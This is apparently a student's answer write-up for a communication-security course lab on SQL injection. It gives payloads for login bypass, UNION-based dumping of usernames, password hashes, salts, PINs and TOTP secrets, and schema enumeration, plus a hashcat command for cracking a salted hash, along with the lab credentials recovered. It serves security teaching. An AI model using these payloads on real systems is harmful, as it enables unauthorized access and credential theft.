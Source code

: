 # KBE-Injections
Second lab of Communication Security course


# Answers
Here are the answers for this lab.
Code is in `kbe/src/test/java` directory 

## Exercise 1
Login without password
```
' OR 1=1 #
```

## Exercise 2
I have used Selenium + LIKE operator to find the result in 40 iterations.
```
PIN of 'sinelser' is 3043 
```


## Exercise 3
To steal the secret was enough to use
```
badName' UNION SELECT secret AS username FROM users WHERE username LIKE 'sinelser' #
```

and I've got 
```
AWQJITSIA5MZXDBK   (secret)
```

Then I've generated OTP using Google Authenticator. 

## Exercise 4
To obtain a list of usernames, passwords, salts, secrets and pins I have used
 
```
offset=10 UNION SELECT CONCAT("  USERNAME IS ", username, "  PASSWORD IS  ", password, "  SALT IS  ", salt, "   PIN IS", pin, "  SECRET IS  ", secret) AS date_time, '' AS message FROM users
```

## Exercise 5
To obtain my password I've used BruteForce
```
Password for `sinelser` is ded93
```


## Exercise 6
To obtain teacher's password I've used prepared script to get a lot of popular passwords
The result file is 587 Mb. Then I have decided to use hashcat to go through all the combinations in that file.
Then I wrote method to add salt to each word and eventually run:
 
```
hashcat -a 0 -m 110 hashes.txt passwordsWithSalt.txt
```

Where `hashes.txt` has only hash of teacher's password and `passwordsWithSalt.txt` has a lot of passwords with put salt.

Password is
```
fm9fytmf7q
```

## Exercise 7
Because this password with salt is already known from a part of Microsoft Office XP Serial Key
http://dloadcntr.blogspot.com/2013/09/microsoft-office-xp-serial-key.html 

## Exercise 8
I've written 2 Injections:
1. Prints all column names
```
offset=10 UNION SELECT column_name AS message, '' AS date_time FROM information_schema.columns 
```
2. Prints all tables name
```
offset=10 UNION SELECT table_name AS message, '' AS date_time FROM information_schema.tables
```

## Exercise 9
 
```
I couldn't resolve it
```

